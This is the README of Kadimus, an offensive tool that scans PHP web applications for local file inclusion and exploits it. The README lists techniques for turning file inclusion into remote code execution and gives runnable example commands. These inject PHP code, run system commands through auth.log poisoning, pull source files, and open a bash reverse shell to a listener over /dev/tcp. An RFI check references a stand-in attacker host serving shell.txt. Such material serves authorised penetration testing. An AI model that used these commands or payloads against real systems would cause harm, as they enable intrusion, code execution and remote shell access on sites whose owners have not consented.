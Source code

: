  [![Rawsec's CyberSecurity Inventory](https://inventory.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.rawsec.ml/tools.html#Kadimus)
 [![GitHub stars](https://img.shields.io/github/stars/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/stargazers)
 [![GitHub license](https://img.shields.io/github/license/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/blob/master/license.txt)

# kadimus
LFI Scan &amp; Exploit Tool
--
kadimus is a tool to check and exploit lfi vulnerability focus on PHP systems

Features:

- [x] Check all url parameters
- [x] /var/log/auth.log RCE
- [x] /proc/self/environ RCE
- [x] php://input RCE
- [x] data://text RCE
- [x] expect://cmd RCE
- [x] Source code disclosure
- [x] Command shell interface through HTTP Request
- [x] Proxy support (socks4://, socks4a://, socks5:// ,socks5h:// and http://)
- [x] Proxy socks5 support for remote connections

## Compile:

First, make sure you have all dependencies installed in your system.
Dependencies: libcurl, libopenssl, libpcre and libssh

Then you can clone the repository, to get the source code:
```sh
$ git clone https://github.com/P0cL4bs/kadimus.git
$ cd kadimus
```

### And finally:

```sh
$ make
```

## Options:

```
Options:
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry NUMBER              Number of times to retry if connection fails
    --proxy STRING              Proxy to connect, syntax: protocol://hostname:port

  Scanner:
    -u, --url STRING            URL to scan/exploit
    -o, --output FILE           File to save output results

  Explotation:
    --parameter STRING          Parameter name to inject exploit
                                (only needed by RCE data and source disclosure)

  RCE:
    -T, --technique=TECH        LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    --connect STRING            Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect or listen
    -l, --listen                Bind and listen for incoming connections

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text
      expect                    Try run a command using expect://cmd

    Source Disclosure:
      -S, --source              Try get the source file using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)

```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
```

### Get source code of file:
```
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
```

### Execute php code:
```
./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
```

### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:

```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
```

Contributing
------------
You can help with code, or donating money.
If you wanna help with code, use the kernel code style as a reference.

Paypal: [![](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=RAG26EKAYHQSY&currency_code=BRL&source=url)

BTC: 1PpbrY6j1HNPF7fS2LhG9SF2wtyK98GSwq
